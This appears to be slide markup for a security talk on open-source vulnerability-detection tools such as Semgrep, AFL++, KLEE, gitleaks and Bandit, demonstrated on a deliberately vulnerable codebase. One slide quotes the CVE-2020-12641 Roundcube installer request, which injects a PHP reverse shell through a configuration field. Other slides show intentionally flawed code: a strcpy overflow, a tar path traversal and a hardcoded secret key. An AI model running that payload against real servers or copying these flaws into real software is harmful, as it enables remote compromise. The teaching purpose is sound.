



<style>
@import url('https://fonts.googleapis.com/css2?family=Ubuntu:ital,wght@0,300;0,400;0,500;0,700;1,300;1,400;1,500;1,700&display=swap');

:root {
  font-family: 'Ubuntu', sans-serif;
}

img[alt~="center"] {
  display: block;
  margin: 0 auto;
}

blockquote {
    font-size: 60%;
    margin-top: auto;
}
</style>

<!-- _class: lead -->

# The Open Source Fortress

---


---


---



---


---


---


---

## Roundcube Webmail

* Browser-based IMAP client
* Open source, being hosted on [GitHub](https://github.com/roundcube/roundcubemail)
* 5.2k stars (as per November 13, 2023)
* Written in XHTML, CSS, JavaScript (with jQuery), and PHP

---

## Q: What are we missing here?

1) `/installer/index.php` route stores the raw user-controlled configuration in <br/> `rcube->config`.
2) When an email with a non-standard format is received, `rcube::exec` executes the output of `getCommand`.

---

```php
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        return $cmd;
    }

    // Executable must exist, also disallow network shares on Windows
    if ($cmd[0] != "\\" && file_exists($cmd)) {
        return $cmd;
    }

    if (empty($error[$opt_name])) {
        rcube::raise_error("Invalid $opt_name: $cmd", true, false);
        $error[$opt_name] = true;
    }

    return false;
}
```

> From [`program/lib/Roundcube/rcube_image.php`](https://github.com/roundcube/roundcubemail/blob/ecaada40307f79f3e99c2e83a9de176f85525aeb/program/lib/Roundcube/rcube_image.php#L502)


---

## A: Input sanitisation

* The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format.
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be used in executed.
* The attacker will have a reverse shell.

> From [DrunkenShells's `Disclosures` repository](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12641-Command%20Injection-Roundcube)

<!--

- TIF
- getCommand

-->

---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 7.66% EPSS
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---

## But … Was it preventable?

* Yes, but not with standard linters or scanners
* Taint analysis as a possible solution
  * `rcube->config` as a tainted data source
  * `rcube::exec` as a sensitive sink

---

## The Open Source Fortress

* [ossfortress.io](https://ossfortress.io)
* Lots of OSS tools that can be used to proactively detect vulnerabilities
* Structure
  * Factual information
    - General software and **software security topics**
    - **Brief presentation of each analysis technique**
  * **Practical examples for analysing a vulnerable codebase**
    - Infrastructure and access
    - Documentations
    - Proposed solutions

---


---

## Ubuntu Portrait

* Vulnerable-by-design codebase
* "*lightweight piece of software that runs on an Ubuntu server and allows users to control it through their browsers*"
* On-premise deployment
* Written in Python and C
* 12+ embedded vulnerabilities

<!--

- Vulnerable-by-design
  - WebGoat
  - Damn Vulnerable Web Application
  - CloudGoat
- Vulnerabilities in dependencies

-->

---

<center>
  <iframe width="960" height="560" src="https://www.youtube.com/embed/WHi-5XMa2rQ?si=Jj_c7AciavJIOqDD&amp;controls=0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</center>

---



---


---

## Threat modelling

* Identifying asset and threats
  * What we need to defend?
  * What can go wrong?
* Legal requirement (e.g., USA and Singapore)

<!--

- Secure by design
- Prioritisation
- Stakeholder confidence booster

-->

---

<center>
  <iframe width="960" height="560" src="https://www.youtube.com/embed/R99il2vnZMQ?si=6YsA-HqSdYdzaA8d&amp;controls=0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</center>

---

## OWASP Threat Dragon

* Threat modelling tool backed by OWASP
* Usual process
  1) Threat model creation
  2) Diagram creation: STRIDE, CIA
  3) Asset representation: stores, process, actor, data flow, trust boundaries
  4) Manual threat identification, with type, status, score, priority, description, and mitigation

---


---

## Code querying

* Searching a specific pattern in the codebase
* Optional abstract representation of the codebase
  * Abstract syntax trees
  * Control flow graphs
* Query types
  * Literals: `scanf`
  * Regex: `scanf\(.*\)`
  * Data structures: `({cpg.method("(?i)scanf").callIn}).l` in Joern's [CPGQL](https://joern.io/)
* Community queries (but generic)

<!--

- Data structures specific to the abstract representation

-->

---


> From [Trail of Bit's "Fast and accurate syntax searching for C and C++"](https://blog.trailofbits.com/2022/12/22/syntax-searching-c-c-clang-ast/)

---

```bash
$ pip install semgrep
```

---

```yaml
rules:
- id: secret-logging
    patterns:
    - pattern-either:
        - pattern: $LOGGING_LIB.$METHOD(..., $MESSAGE, ...)
    - metavariable-pattern:
        metavariable: $LOGGING_LIB
        patterns:
            - pattern-either:
                - pattern: logging
                - pattern: logger
    - metavariable-pattern:
        metavariable: $MESSAGE
        patterns:
            - pattern-either:
                - pattern: <... password ...>
                - pattern: <... token ...>
            - pattern-not: |
                "..."

[...]
```

---

```bash
$ semgrep scan                              \
  --sarif                                   \
  --config ~/analysis/semgrep-rules         \
  --output ~/analysis/semgrep.custom.sarif  \
  ~/codebase/portrait/portrait
```

---

```
┌─────────────┐
│ Scan Status │
└─────────────┘
  Scanning 17 files (only git-tracked) with 4 Code rules:

[...]             

┌──────────────┐
│ Scan Summary │
└──────────────┘
Some files were skipped or only partially analyzed.
  Scan was limited to files tracked by git.

Ran 4 rules on 11 files: 9 findings.
```

---

```python
[...]

logging.info(
    f"Authenticating user with credentials: {username}:{password}"
)

[...]
```

---

## Semgrep

* (Partially) open-source code scanner
* Support for 30+ programming languages
* No prior build requirements
* No DSL for rules
* Default or third-party rules

---


---

## Fuzzing

* Running a program and offering random, unexpected inputs
* A crash = a security issue
  * `*NULL`
  * Sanitizers: ASan, UBSan, etc.
* BFS traversal of the CFG
* Optimisations

<!--

- Optimisation
  - Instrumenting the source code
  - Knowing the input format
  - Defining the states
  - Testing all input streams

-->

---


> From [AdaCore's "Finding Vulnerabilities using Advanced Fuzz testing and AFLplusplus v3.0"](https://blog.adacore.com/advanced-fuzz-testing-with-aflplusplus-3-00)

---

```bash
$ docker exec -it aflplusplus/aflplusplus /bin/bash
```

---

```c
int main(int argc, char *argv[]) {
  int length, read_length;
  char *buffer, *filename;

  if (argc != 2){
    return 1;
  }

  filename = argv[1];
  FILE * f = fopen (filename, "rb");

  fseek (f, 0, SEEK_END);
  length = ftell (f);
  fseek (f, 0, SEEK_SET);
  buffer = malloc (length);
  fread (buffer, 1, length, f);
  fclose (f);

  generate_recovery_token(buffer + 4, buffer);

  return 0;
}
```

---

```bash
$ AFL_USE_ASAN=1 /AFLplusplus/afl-cc            \
  -g                                            \
  -o crash_me_if_u_can.elf                      \
  generate_recovery_token.c sha256.c harness.c
```

---

```bash
$ afl-fuzz                              /
  -i ~/analysis/afl++/c_modules/inputs  /
  -o ~/analysis/afl++/c_modules/outputs /
  --                                    /
  ./crash_me_if_u_can.elf @@
```

---

```bash
    american fuzzy lop ++4.09a {default} (./crash_me_if_u_can.elf) [fast]
┌─ process timing ────────────────────────────────────┬─ overall results ────┐
│        run time : 0 days, 0 hrs, 0 min, 0 sec       │  cycles done : 0     │
│   last new find : none seen yet                     │ corpus count : 1     │
│last saved crash : 0 days, 0 hrs, 0 min, 0 sec       │saved crashes : 1     │
│ last saved hang : none seen yet                     │  saved hangs : 0     │
├─ cycle progress ─────────────────────┬─ map coverage┴──────────────────────┤
│  now processing : 0.2 (0.0%)         │    map density : 26.79% / 26.79%    │
│  runs timed out : 0 (0.00%)          │ count coverage : 5.27 bits/tuple    │
├─ stage progress ─────────────────────┼─ findings in depth ─────────────────┤
│  now trying : havoc                  │ favored items : 1 (100.00%)         │
│ stage execs : 151/459 (32.90%)       │  new edges on : 1 (100.00%)         │
│ total execs : 173                    │ total crashes : 1 (1 saved)         │
│  exec speed : 99.88/sec (slow!)      │  total tmouts : 19 (0 saved)        │
├─ fuzzing strategy yields ────────────┴─────────────┬─ item geometry ───────┤
│   bit flips : disabled (default, enable with -D)   │    levels : 1         │
│  byte flips : disabled (default, enable with -D)   │   pending : 0         │
│ arithmetics : disabled (default, enable with -D)   │  pend fav : 0         │
│  known ints : disabled (default, enable with -D)   │ own finds : 0         │
│  dictionary : n/a                                  │  imported : 0         │
│havoc/splice : 1/12, 0/0                            │ stability : 100.00%   │
│py/custom/rq : unused, unused, unused, unused       ├───────────────────────┘
│    trim/eff : 20.00%/1, disabled                   │          [cpu001:350%]
└─ strategy: explore ────────── state: started :-) ──┘
```

---

```c
[...]

server_recovery_passphrase = getenv("PORTRAIT_RECOVERY_PASSPHRASE");
if (server_recovery_passphrase == NULL)
  return NULL;

passphrase_len = strlen(server_recovery_passphrase) - 1;

buf = (BYTE *)malloc(SHA256_BLOCK_SIZE * sizeof(BYTE));
if (!buf)
  return NULL;

// Prevent buffer overflow by allocating more
hashed_len = length + passphrase_len;
hashed = (BYTE *)malloc(10 * hashed_len * sizeof(BYTE));
if (!hashed){
  free(buf);

  return NULL;
}

strcpy(hashed, server_recovery_passphrase);
strcpy(hashed + passphrase_len, data);

[...]
```

---

## AFL++

* An [American Fuzzy Lop (AFL)](https://github.com/google/AFL) fork
* Additional features compared to AFL
  - QEMU emulation
  - Persistent mode
  - Optimisations
* Embedded in [Google's OSS-Fuzz](https://google.github.io/oss-fuzz/)

---


---

## Secret scanning

* Secrets
  - API keys
  - Credentials 
  - Tokens
* Searching for specific patterns or entropy for a secret
* Community (generic) rules

---

Download a binary from [the GitHub releases](https://github.com/gitleaks/gitleaks/releases).

---

```bash
$ gitleaks                                \
  --no-banner                             \
  detect                                  \
  --report-format sarif                   \
  --source ~/codebase                     \
  --report-path ~/analysis/gitleaks.sarif \
  --redact
```

---

```bash
5:48PM INF 68 commits scanned.
5:48PM INF scan completed in 196ms   
5:48PM WRN leaks found: 5
```

---

```python
[...]

app = Flask(__name__)

app.secret_key = (
    b"192b9bdd22ab9ed4d12e236c78afcb9a393ec15f71bbf5dc987d54727823bcbf"
)

LOG_LOCATION = "/var/log/portrait.log"

[...]
```

---

## Gitleaks

* Detector for hardcoded secrets 
* Analysis of the entire Git history
* Support for baselines and custom formats of secrets

---


> ["You would be wise to surrender" - Darth Vader](#others)

---

## Symbolic execution for taint analysis

* Investigating all CFG paths by replacing the concrete values with symbolic ones
* Components
  * Sources
  * Sinks
  * Patterns
* Path explosion problem

---

<style>
    div.twocols {
        margin-top: 35px;
        column-count: 2;
    }

    div.twocols p:first-child,
    div.twocols h1:first-child,
    div.twocols h2:first-child,
    div.twocols ul:first-child,
    div.twocols ul li:first-child,
    div.twocols ul li p:first-child {
        margin-top: 0 !important;
    }

    div.twocols p.break {
        break-before: column;
        margin-top: 0;
    }
</style>

<div class="twocols">

```c
int f(int a, int b){
    int x = 1, y = 0;

    if (a != 0) {
        y = x + 3;
        if b == 0 {
            x = 2 * (a + b);
        }
    }

    return (a + b) / (x - y);
}
```

<p class="break"></p>


</div>

> From [symflower's "What is symbolic execution for software programs"](https://symflower.com/en/company/blog/2021/symbolic-execution/)

---

```bash
$ docker exec -it klee/klee /bin/bash
```

---

```c
int main() {
  char re[10];
  int count;

  klee_make_symbolic(re, sizeof re, "re");
  re[9] = '\0';

  klee_make_symbolic(&count, sizeof(int), "count");

  generate_recovery_token(re, count);

  return 0;
}
```

---

```bash
$ clang               \
  -emit-llvm          \
  -c                  \
  -g                  \
  -O0                 \
  -Xclang             \
  -disable-O0-optnone \
  -I .                \
  source.c            \
  -o source.bc
```

---

```bash
$ klee source.bc
```

---

```
[...]
KLEE: NOTE: found huge malloc, returning 0
KLEE: ERROR: source.c:216: concretized symbolic size
KLEE: NOTE: now ignoring this error at this location
KLEE: WARNING ONCE: calling external: strcpy(94204336258496, 94204335341000) at source.c:224 10
KLEE: ERROR: source.c:118: memory error: out of bound pointer
KLEE: NOTE: now ignoring this error at this location
[...]
```

---

# KLEE

* Generic symbolic execution with security use cases
* Built on [LLVM](https://llvm.org/)

> Thanks, [Cristian Cadar](https://www.doc.ic.ac.uk/~cristic/)!

---


> ["You would be wise to surrender" - Darth Vader](#others)

---


---

## Dependency scanning

* Iterating through all dependencies for finding their vulnerabilities
* Usage of the dependencies declaration list

---

Download a binary from [the GitHub releases](https://github.com/google/osv-scanner/releases).

---

```bash
$ osv-scanner                                     \
  --lockfile ~/codebase/portrait/poetry.lock 
```

---

```bash
Scanned ~/codebase/portrait/poetry.lock file and found 23 packages
╭─────────────────────────────────────┬──────┬───────────┬──────────┬─────────┬───────────────────────────────╮
│ OSV URL                             │ CVSS │ ECOSYSTEM │ PACKAGE  │ VERSION │ SOURCE                        │
├─────────────────────────────────────┼──────┼───────────┼──────────┼─────────┼───────────────────────────────┤
│ https://osv.dev/GHSA-56pw-mpj4-fxww │      │ PyPI      │ pillow   │ 9.5.0   │ codebase/portrait/poetry.lock │
│ https://osv.dev/GHSA-j7hp-h8jx-5ppr │ 8.8  │ PyPI      │ pillow   │ 9.5.0   │ codebase/portrait/poetry.lock │
│ https://osv.dev/PYSEC-2023-175      │      │ PyPI      │ pillow   │ 9.5.0   │ codebase/portrait/poetry.lock │
│ https://osv.dev/GHSA-hrfv-mqp8-q5rw │ 8    │ PyPI      │ werkzeug │ 3.0.0   │ codebase/portrait/poetry.lock │
│ https://osv.dev/PYSEC-2023-221      │      │           │          │         │                               │
╰─────────────────────────────────────┴──────┴───────────┴──────────┴─────────┴───────────────────────────────╯
```

---

```toml
[...]

[tool.poetry.dependencies]
python = "^3.10"
Flask = "^2.3.3"
python-pam = "^2.0.2"
six = "^1.16.0"
pillow = "^9.5.0"

[...]
```

---

```
10.0.1 (2023-09-15)

    Updated libwebp to 1.3.2 #7395 [radarhere]
    Updated zlib to 1.3 #7344 [radarhere]
```

---



---

## OSV-Scanner

* Client for [Google's OSV database](https://osv.dev), which embeds:
  - [GitHub Security Advisories](https://github.com/advisories)
  - [PyPA](https://github.com/pypa/advisory-database)
  - [RustSec](https://rustsec.org/advisories/)
  - [Global Security Database](https://github.com/cloudsecurityalliance/gsd-database)
* Support for ignored vulnerabilities

---
 


> ["You would be wise to surrender" - Darth Vader](#others)

---

## Linting

* Static analysis for finding issues before compiling/running the code
* Issues
  - Formatting
  - Grammar (for example, non-inclusive expressions)
  - Security

---

```bash
$ pip install bandit
```

---

```bash
$ bandit                                      \
  --recursive ~/codebase/portrait/portrait/   \
  --format sarif                              \
  --o ~/analysis/bandit.sarif
```

---

```bash
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.11.6
[formatter]     INFO    SARIF output written to file: /home/iosifache/analysis/bandit.sarif
```

---

```python
[...]
for tarinfo in tar:
    name = tarinfo.name
    if tarinfo.isreg():
        try:
            filename = f"{extract_dir}/{name}"
            os.rename(os.path.join(tmp, name), filename)

            continue
        except Exception:
            pass

    os.makedirs(f"{extract_dir}/{name}", exist_ok=True)
[...]
```

---

## Bandit

* Linter for Python
* Abstract syntax tree representation of the code
* Custom modules for:
  - Patterns of suspicious code
  - Deny lists of imports and function calls
  - Report generation
* Support for baselines

---

<a id="others"></a>

## Other techniques

<!-- Keep this content syced with "wiki/docs/Other techniques.md" -->

* Stress/load testing
  - [JMeter](https://github.com/apache/jmeter) for many protocols and services
  - [`k6`](https://github.com/grafana/k6) for Kubernetes
* Web dynamic analysis
  - [OWASP's Zed Attack Proxy](https://github.com/zaproxy/zaproxy)

---


---

## Security tooling automation

<!-- Keep this content syced with "wiki/docs/Security tooling automation.md" -->

* [SARIF Multitool](https://github.com/microsoft/sarif-sdk/blob/main/docs/multitool-usage.md) for performing operations with SARIF files (merging, paging, querying, supressing, etc.)
* [Make](https://www.gnu.org/software/make/) and [Poe the Poet](https://github.com/nat-n/poethepoet) for running tasks
* IDE workflows (e.g., [VSCode tasks](https://code.visualstudio.com/Docs/editor/tasks)) for running the tooling while coding
* [`pre-commit`](https://github.com/pre-commit/pre-commit) for managing Git pre-commit hooks
* [`act`](https://github.com/nektos/act) or [GitLab Runner](https://docs.gitlab.com/runner/install/) for running CI/CD workflows locally
* [GitHub Actions](https://docs.github.com/en/actions) or [GitLab pipelines](https://docs.gitlab.com/ee/ci/) for running CI/CD workflows

---


---

<blockquote>
  <p style="font-size: 32pt">
    "<b><i>Ubuntu does not mean that people should not address themselves, the question, therefore, is, are you going to do so in order to enable the community around you to be able to improve.</i></b>" - Nelson Mandela
  </p>
</blockquote>

---


---


---


---


---


